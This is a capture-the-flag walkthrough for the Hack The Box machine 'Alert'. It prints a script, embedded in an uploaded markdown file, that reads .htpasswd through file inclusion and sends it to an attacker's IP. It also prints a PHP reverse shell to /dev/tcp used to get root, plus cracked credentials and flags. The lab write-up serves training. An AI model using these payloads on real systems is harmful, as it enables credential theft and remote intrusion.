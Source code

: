 ```yaml
---
sticker: emoji//1f534
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

We need to add `alert.htb` to `/etc/hosts` in order to access the website

`echo 'IP alert.htb' | sudo tee -a /etc/hosts`

Nice, let's begin with reconnaissance.
# RECONNAISSANCE
---

When we first access the website, we can find this:

![](../images/Pasted%20image%2020250110145426.png)

It is a markdown viewer website, we can only upload files with a `.md` extension, which is the markdown extension, let's upload a file and analyze its behavior using burp:

![](../images/Pasted%20image%2020250110150021.png)


# EXPLOITATION
---


The server basically processes the file with a function called `visualizer.php`, we need to upload a malicious `.md` file, I found we can perform [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI).md|LFI]] let's reproduce these steps:

```js
<script>
fetch("http://alert.htp/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://IP:PORT/?file_content=" + encodeURIComponent(data));
  });
</script>
```

We are using `statistics.alert.htb` since I found that subdomain while fuzzing, it needed credentials.


```ad-hint
1. Upload a markdown file with the script embedded above.
2. Set up a python server to get the contents of the file we are going to read.
3. Receive the data in our python server.


##### Output
----
![](../images/Pasted%20image%2020250110154608.png)

We got the following data from `.htpasswd`, htpasswd is used to create and update the flat-files used to store usernames and password for basic authentication of HTTP users.

It is url encoded, so, we get this: 

`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A`

When we decode the data:

`<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>`

Let's use john to crack the hash, we can use the following command: 

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt`

We get the following output:

![](../images/Pasted%20image%2020250110155239.png)

So, we got the following credentials:

`albert`:`manchesterunited`
```

Let's log into ssh with the found credentials:

![](../images/Pasted%20image%2020250110155457.png)

We are able to read `user.txt`:

![](../images/Pasted%20image%2020250110155516.png)

```ad-important
User: `c0ebbe25578f5ccb7a536e93d4e69238`
```


Let's begin PRIVESC

# PRIVILEGE ESCALATION
---


Let's run linpeas:


![](../images/Pasted%20image%2020250110160337.png)

First, there's something running on port `8080`, let's use ssh tunneling, but I also found something interesting:


![](../images/Pasted%20image%2020250110160647.png)

There's a directory that has root access, let's reproduce the following steps in order to get a root shell:

```php
<?php
exec("/bin/bash -c 'bash -i >/dev/tcp/IP/PORT 0>&1'");
?>
```

```ad-hint
1. Create a `.php` file with the contents above, save the file at `opt/website-monitor/config`
2. Use ssh tunneling to view the contents of the website running on port `8080`: `ssh -L 8080:127.0.0.1:8080 albert@alert.htb`.
3. Set up listener regarding the port we specified in the file we created.
4. Visit `127.0.0.1:8080/nameofthefileuploaded.php` 
5. Receive root connection on our listening netcat.

### Output
----

![](../images/Pasted%20image%2020250110161332.png)

```

We got a root shell, let's read flag:

![](../images/Pasted%20image%2020250110161352.png)

```ad-important
root: `f6a8586a751b4a7f1203d20b0fef1e6a`
```

